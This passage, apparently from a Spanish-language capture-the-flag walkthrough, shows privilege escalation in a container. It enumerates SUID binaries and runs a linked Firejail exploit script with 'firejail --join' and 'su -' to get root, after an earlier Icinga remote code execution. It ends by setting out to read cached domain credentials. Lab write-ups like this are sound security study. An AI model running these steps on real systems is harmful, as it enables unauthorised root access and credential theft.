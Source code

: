 - Buscamos binarios con permisos SUID:

```js
$find / -perm -4000 2>/dev/null

/usr/sbin/ccreds_chkpwd
/usr/bin/mount
/usr/bin/sudo
/usr/bin/firejail
/usr/bin/chfn
/usr/bin/fusermount3
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/ksu
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/su
/usr/bin/umount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/libexec/polkit-agent-helper-1
```

- Nos llama la atención el binario "Firejail", si buscamos en internet vulnerabilidades sobre este binario encontramos el siguiente repositorio: https://gist.github.com/GugSaas/9fb3e59b3226e8073b3f8692859f8d25

- Se trata de una script en Python que abusa de las funcionalidades de Firejail y que al parecer sirve para convertirnos directamente en el usuario root. Descargamos la script y la transferimos al contenedor y le otorgamos permisos de ejecución "chmod +x exploit.py"

- SI la ejecutamos nos dice que ejecutemos "su -" en otra terminal, por lo que debemos entablarnos otra shell del contenedor, lo podemos hacer rápidamente usando el RCE de Icinga que habíamos vulnerado.

- Con la segunda terminal ya abierta, ahora sí procedemos a ejecutar la script en la primera terminal y vemos el siguiente mensaje:

```bash
$python3 exploit.py
```

You can now run 'firejail --join=25497' in another terminal to obtain a shell where 'sudo su -' should grant you a root shell.

- En la segunda terminal ejecutamos los comandos:

```bash
$firejail --join=25497
$su -
```

- Y ya seremos root en el contenedor.

- Como root podemos enumerar en búsqueda de archivos que contengan credenciales cacheadas, anteriormente vimos que el contenedor está enlazado a un DC el cual sería la máquina Windows, podríamos leer el archivo que contiene información del DC:
